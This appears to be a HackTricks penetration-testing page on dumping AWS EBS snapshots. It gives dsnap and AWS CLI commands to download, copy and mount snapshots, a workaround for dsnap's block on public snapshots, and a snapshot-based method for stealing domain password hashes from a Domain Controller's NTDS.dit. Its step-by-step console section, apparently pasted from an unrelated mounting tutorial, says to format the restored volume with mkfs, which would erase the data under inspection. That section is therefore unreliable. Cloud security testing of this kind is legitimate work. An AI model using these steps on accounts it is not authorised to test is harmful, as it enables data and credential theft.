 # AWS - EBS Snapshot Dump

{{#include ../../../../banners/hacktricks-training.md}}

## Checking a snapshot locally

```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```

> [!CAUTION]
> **Note** that `dsnap` will not allow you to download public snapshots. To circumvent this, you can make a copy of the snapshot in your personal account, and download that:

```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```

For more info on this technique check the original research in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

You can do this with Pacu using the module [ebs\_\_download_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Checking a snapshot in AWS

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```

**Mount it in a EC2 VM under your control** (it has to be in the same region as the copy of the backup):

Step 1: A new volume of your preferred size and type is to be created by heading over to EC2 –> Volumes.

To be able to perform this action, follow these commands:

- Create an EBS volume to attach to the EC2 instance.
- Ensure that the EBS volume and the instance are in the same zone.

Step 2: The "attach volume" option is to be selected by right-clicking on the created volume.

Step 3: The instance from the instance text box is to be selected.

To be able to perform this action, use the following command:

- Attach the EBS volume.

Step 4: Login to the EC2 instance and list the available disks using the command `lsblk`.

Step 5: Check if the volume has any data using the command `sudo file -s /dev/xvdf`.

If the output of the above command shows "/dev/xvdf: data", it means the volume is empty.

Step 6: Format the volume to the ext4 filesystem using the command `sudo mkfs -t ext4 /dev/xvdf`. Alternatively, you can also use the xfs format by using the command `sudo mkfs -t xfs /dev/xvdf`. Please note that you should use either ext4 or xfs.

Step 7: Create a directory of your choice to mount the new ext4 volume. For example, you can use the name "newvolume".

To be able to perform this action, use the command `sudo mkdir /newvolume`.

Step 8: Mount the volume to the "newvolume" directory using the command `sudo mount /dev/xvdf /newvolume/`.

Step 9: Change directory to the "newvolume" directory and check the disk space to validate the volume mount.

To be able to perform this action, use the following commands:

- Change directory to `/newvolume`.
- Check the disk space using the command `df -h .`. The output of this command should show the free space in the "newvolume" directory.

You can do this with Pacu using the module `ebs__explore_snapshots`.

## Checking a snapshot in AWS (using cli)

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```

## Shadow Copy

Any AWS user possessing the **`EC2:CreateSnapshot`** permission can steal the hashes of all domain users by creating a **snapshot of the Domain Controller** mounting it to an instance they control and **exporting the NTDS.dit and SYSTEM** registry hive file for use with Impacket's secretsdump project.

You can use this tool to automate the attack: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) or you could use one of the previous techniques after creating a snapshot.

## References

- [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{{#include ../../../../banners/hacktricks-training.md}}




